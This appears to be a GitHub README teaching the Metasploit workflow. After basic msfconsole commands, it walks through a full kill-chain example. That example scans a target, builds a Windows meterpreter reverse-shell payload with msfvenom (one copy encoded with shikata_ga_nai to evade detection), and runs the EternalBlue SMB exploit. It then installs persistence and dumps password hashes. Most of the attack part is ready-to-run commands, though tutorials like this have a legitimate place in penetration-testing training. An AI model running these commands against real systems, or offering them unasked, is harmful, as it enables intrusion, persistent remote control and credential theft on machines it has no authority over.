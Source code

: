 ## Workflow:
1. To start Metasploit shell: `msfconsole`

2. A shell will be open: `msf6` along with all available Modules.

3. Search a module to use `search type:keyword`
- to navigate to modules `back`

4. To interact with a module `info 23, use 23 or use auxiliary/scanner/portscan/tcp `

5. Once selected `auxiliary(scanner/portscan/tcp)`
In Case of `Exploit` Module, we can set a payload too.
- To check available payloads for current Exploit Module `show payload`
- Select a payload `set payload_name or Number`

6. Check Options `show options` or full info with `info`

7. Set the Parameters Lhost/Rhost/Ports etc `set Lhost x.x.x.x`

8. Run the module `run` or `exploit`

## Note: TO SAVE the Output:
```
spool /path/to/output_file.txt
run
spool off
```

---
---

# Practical Example Workflow:
## 1. Reconnaissance:
```
Load auxiliary module: use auxiliary/scanner/portscan/tcp
Set RHOSTS: set RHOSTS 192.168.1.100
Run the scan: run
```

## 2. Weaponization:
```
Generate payload: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f exe -o shell.exe
```

## 3. Delivery:
```
Load exploit module: use exploit/windows/smb/ms17_010_eternalblue
Set payload: set payload windows/meterpreter/reverse_tcp
Set RHOST: set RHOST 192.168.1.100
Run the exploit: run
```

## 4. Exploitation:
```
Meterpreter session opened (assuming successful exploitation).
```

## 5. Installation:
```
Load post-exploitation module: use post/windows/manage/persistence
Set session: set SESSION 1
Run the module: run
```

## 6. Command and Control (C2):
```
Encode payload: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -e x86/shikata_ga_nai -f exe -o encoded_shell.exe
```

## 7. Actions on Objectives:
```
Load post-exploitation module: use post/windows/gather/hashdump
Set session: set SESSION 1
Run the module: run
```

---
---

## Cheatsheet:
![image](https://github.com/IOxCyber/CyberEssentials/assets/40174034/7835180f-7295-4337-8f81-8bb23c35f14c)
